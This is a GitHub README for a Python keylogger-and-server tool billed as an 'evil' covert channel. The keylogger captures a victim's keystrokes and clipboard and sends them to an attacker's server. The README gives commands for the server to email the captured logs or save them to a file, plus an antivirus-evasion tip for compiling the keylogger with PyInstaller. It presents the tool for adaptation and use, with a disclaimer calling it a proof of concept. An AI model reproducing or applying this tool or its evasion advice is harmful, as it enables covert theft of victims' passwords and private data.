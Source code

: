 <div align="center">

![272844130-8c3b2b16-ae6d-467b-82a3-0e8c0b89c46a-removebg-preview](https://github.com/Jsmoreira02/Keylogger-Evil_Server/assets/103542430/312b2d20-ecb1-42b9-9d54-2382833a7735)

<img src="https://github.com/Jsmoreira02/Keylogger-Evil_Server/assets/103542430/8f263795-f5f4-418f-a918-d4dea0c992cd" height=350 align=left>

<img src="https://img.shields.io/badge/License-GPL--3.0-blue.svg">
    
<img src="https://img.shields.io/badge/Language%20-Python3-green.svg" style="max-width: 100%;">
<img src="https://img.shields.io/badge/Tool%20-Keylogger, Covert Channel-blue.svg" style="max-width: 100%;">
<img src="https://img.shields.io/badge/Type%20-Script-violet.svg" style="max-width: 100%;">
<img src="https://img.shields.io/badge/OS%20-Windows, Linux-red.svg" style="max-width: 100%;">
<img src="https://img.shields.io/badge/Hacking tool%20-teste?style=flat-square" style="max-width: 100%;">
</div>

# Evil keylogger server (Covert Channel)

* ***Feel free to modify it as you see fit and it can be improved in many ways to suit your needs.***

This project focuses on a malicious server that remotely receives keyboard logs and data saved on the victim's clipboard, emulating an illegal covert channel between the victim and the attacker. When the victim runs the keylogger, the first thing it will do is connect to the attacker's remote server and send the logs in real time.

And it has been carefully designed to present the keyboard logs in the most user-friendly way possible.

****(Remember to add your local or proxy IP address in the keylogger script)****

### Evading the antivirus (Windows 10/11):
Simple technique: Compile the PyInstaller bootloader locally using Microsoft C/C++ compiler and then use pyinstaller to compile the keylogger code.

# Optionals 

#### Send the keyboard logs to the attacker's e-mail address

`./app.py 192.168.32.34 -e smtp.gmail.com`

![Peek 12-01-2024 00-33](https://github.com/Jsmoreira02/Keylogger-Evil_Server/assets/103542430/6d4b9199-5b1a-41ac-a82c-cf6d8b7bcd31)

#### Write the keystroke logs to a file

`./app.py 192.168.18.20 -f keylogs.txt`

![Peek 12-01-2024 00-34](https://github.com/Jsmoreira02/Keylogger-Evil_Server/assets/103542430/b4470ef2-1f89-4823-b7d2-aa012f3a698c)

# Warning:    
> I am not responsible for any illegal use or damage caused by this tool. It primarily serves as a proof of concept and is intended to raise awareness about cybersecurity
